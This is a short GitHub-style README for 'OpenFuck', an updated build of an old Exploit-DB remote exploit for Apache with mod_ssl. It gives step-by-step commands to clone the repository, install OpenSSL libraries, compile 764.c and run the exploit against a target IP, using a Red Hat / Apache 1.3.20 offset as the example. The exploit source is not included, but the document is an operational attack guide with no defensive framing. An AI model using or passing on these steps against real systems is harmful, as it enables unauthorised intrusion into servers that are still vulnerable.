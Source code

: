 # OpenFuck
This is a tool to exploit apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated
1. Download 764.c
~~~
git clone https://github.com/dillu345/OpenFuck.git
~~~
2. Install libssl-dev & libssl1.0dev
~~~
apt install libssl-dev
apt install libssl1.0 dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
